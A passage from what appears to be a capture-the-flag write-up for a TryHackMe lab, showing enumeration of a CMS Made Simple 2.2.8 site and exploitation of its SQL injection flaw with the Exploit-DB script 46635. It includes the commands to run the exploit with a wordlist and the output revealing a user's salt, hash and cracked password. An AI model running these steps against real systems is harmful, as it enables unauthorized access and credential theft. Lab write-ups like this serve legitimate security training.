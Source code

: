 Nothing really in the `robots.txt` file that stands out.

Moving forward we have a directory called `simple` that returned a successful web response code from our scan earlier. Upon visiting that directory we are greeted with a web page that hosts a CMS (Content Management System) called ***CMS Made Simple***. 

![CMS made simple web page](https://danieldavidson.github.io/assets/images/posts/thm-easyctf-01.png)

Just from browsing the page a little bit we also deduce some other information such as users active and version info on the CMS. This is called ***low-tech hacking***.

![CMS user mitch info from a post on the site](https://danieldavidson.github.io/assets/images/posts/thm-easyctf-02.png)

![CMS made simple version info](https://danieldavidson.github.io/assets/images/posts/thm-easyctf-03.png)

So we now have the following:
- A possible user `mitch`
- CMS made simple version-info 2.2.8

Let's browse through `searchsploit` and see if we can find more information about this cms. 

```console
# searchsploit CMS Made Simple 2.2.8 -w
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                               | https://www.exploit-db.com/exploits/46635
----------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looking at `searchsploit` we find a SQL injection vulnerability for CMS made simple versions lower than 2.2.10. 

Upon visiting the URL path to exploit-db [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635) we discover a downloadable python script to do the exploitation for us. 

![CMS made simple exploit-db info](https://danieldavidson.github.io/assets/images/posts/thm-easyctf-04.png)

## Gaining Access / Exploitation
---

Once you've downloaded the python script be sure to use `chmod +x` like the example below:

```console
# chmod +x 46635.py
```

Now, all we have to do is point the script to our target.

```console
# python2.7 ./toolbox/46635.py -u http://10.10.242.144/simple/ --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

